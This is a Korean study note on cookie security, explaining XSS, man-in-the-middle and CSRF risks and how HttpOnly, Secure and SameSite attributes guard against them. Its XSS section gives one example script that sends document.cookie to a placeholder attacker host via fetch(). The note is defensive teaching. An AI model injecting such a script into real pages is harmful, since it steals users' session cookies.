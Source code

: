 ## ✅ **1. 쿠키란?**

**쿠키(Cookie)** 는 **웹 브라우저에 저장되는 작은 데이터 조각**이다.  
서버와 클라이언트(브라우저) 간에 **상태를 유지하거나 사용자 정보를 저장**하는 데 사용된다.

---
## 🧠 **2. 쿠키의 보안 취약점**

### ⚠️ **7.1 XSS (Cross-Site Scripting)**
### ⚠️ **7.2 CSRF (Cross-Site Request Forgery)**
### ⚠️ **7.3 중간자 공격 (MITM)**

---
 ## 🍪**3.HttpOnly Secure 쿠키**
## ⚠️ **3.1 XSS (Cross-Site Scripting) 공격**

- **공격 방법:** 공격자가 웹 페이지에 **악성 JavaScript 코드를 삽입**한다.
- **목적:** JavaScript를 통해 `document.cookie`로 쿠키를 탈취한다.

**예시:**

```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

- **HttpOnly 쿠키는?**
    - JavaScript로 접근할 수 없기 때문에 `document.cookie`로 가져올 수 없다.

**✅ 결론:** **HttpOnly가 XSS 공격으로부터 안전합니다.**

---

## ⚠️ **3.2 중간자 공격 (Man-in-the-Middle, MITM)**

- **공격 방법:** HTTP로 전송되는 쿠키를 공격자가 가로챈다.
- **Secure 쿠키는?**
    - `Secure` 속성이 설정된 쿠키는 **HTTPS를 통해서만 전송**된다.
    - HTTP로 전송되지 않기 때문에 가로챌 수 없습니다.

**✅ 결론:** **Secure가 MITM 공격으로부터 안전합니다.**

---

## ⚠️ **3.3 CSRF (Cross-Site Request Forgery)**

- **공격 방법:** 사용자가 로그인한 상태에서 악성 웹 사이트가 요청을 자동으로 보낸다.
- **SameSite 쿠키는?**
    - `SameSite=Strict`: 다른 도메인에서는 쿠키를 보내지 않는다.
    - `SameSite=Lax`: 외부 링크 클릭 시만 쿠키 전송.

**✅ 결론:** **SameSite가 CSRF 공격으로부터 안전하다.**

## 🚦 **3.4. HttpOnly Secure 쿠키는 완벽할까?**
1. **물리적 탈취:** 사용자의 디바이스가 탈취되면 쿠키를 열어볼 수 있다.
2. **브라우저 취약점:** 브라우저 보안에 취약점이 있을 경우 노출 가능.
3. **로그아웃 관리:** 서버에서 쿠키를 강제로 무효화할 수 없음.

**→ 이 한계를 보완하기 위해 Redis를 사용하여 Refresh Token을 중앙 관리한다.**

---
![[Pasted image 20241224122701.png]]

AccessToken은 자바스크립트(Vue.js)의 메모리(전역 변수)에 저장